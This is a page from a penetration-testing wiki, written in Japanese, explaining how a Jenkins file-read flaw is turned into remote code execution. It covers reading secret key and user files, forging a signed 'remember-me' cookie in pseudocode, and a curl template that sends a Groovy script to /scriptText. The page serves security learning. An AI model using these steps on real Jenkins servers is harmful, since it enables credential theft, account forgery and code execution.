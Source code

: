 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

このブログ投稿では、Jenkinsのローカルファイルインクルージョン脆弱性をRCEに変換する素晴らしい方法を見つけることができます: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

これは、任意のクッキーを作成することがRCEを取得するために悪用される投稿の部分のAIによって作成された要約です。自分で要約を作成する時間ができるまでの間のものです:

### 攻撃の前提条件

* **機能要件:** "Remember me"が有効である必要があります（デフォルト設定）。
* **アクセスレベル:** 攻撃者は全体/読み取り権限が必要です。
* **秘密アクセス:** 重要なファイルからバイナリおよびテキストコンテンツを読み取る能力。

### 詳細な悪用プロセス

#### ステップ1: データ収集

**ユーザー情報の取得**

* 各ユーザーのために`$JENKINS_HOME/users/*.xml`からユーザー設定と秘密をアクセスして収集します:
* **ユーザー名**
* **ユーザーシード**
* **タイムスタンプ**
* **パスワードハッシュ**

**秘密鍵の抽出**

* クッキーの署名に使用される暗号鍵を抽出します:
* **秘密鍵:** `$JENKINS_HOME/secret.key`
* **マスターキー:** `$JENKINS_HOME/secrets/master.key`
* **MACキーのファイル:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### ステップ2: クッキーの偽造

**トークンの準備**

*   **トークンの有効期限を計算:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 現在の時間に1時間を追加
```
{% endcode %}
*   **トークンのためのデータを連結:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MACキーの復号化**

*   **MACキーのファイルを復号化:**

```javascript
key = toAes128Key(masterKey)  // マスターキーをAES128キー形式に変換
decrypted = AES.decrypt(macFile, key)  // .macファイルを復号化
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**署名の計算**

*   **HMAC SHA256を計算:**

```javascript
mac = HmacSHA256(token, macKey)  // トークンとMACキーを使用してHMACを計算
tokenSignature = bytesToHexString(mac)  // MACを16進数文字列に変換
```

**クッキーのエンコーディング**

*   **最終クッキーを生成:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // クッキーのデータをBase64エンコード
```
{% endcode %}

#### ステップ3: コード実行

**セッション認証**

* **CSRFおよびセッショントークンを取得:**
* `/crumbIssuer/api/json`にリクエストを送信して`Jenkins-Crumb`を取得します。
* 応答から`JSESSIONID`をキャプチャし、remember-meクッキーと一緒に使用します。

**コマンド実行リクエスト**

*   **Groovyスクリプトを使用してPOSTリクエストを送信:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovyスクリプトは、Jenkins環境内でシステムレベルのコマンドや他の操作を実行するために使用できます。

提供されたcurlコマンドの例は、必要なヘッダーとクッキーを使用してJenkinsにリクエストを送信し、任意のコードを安全に実行する方法を示しています。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
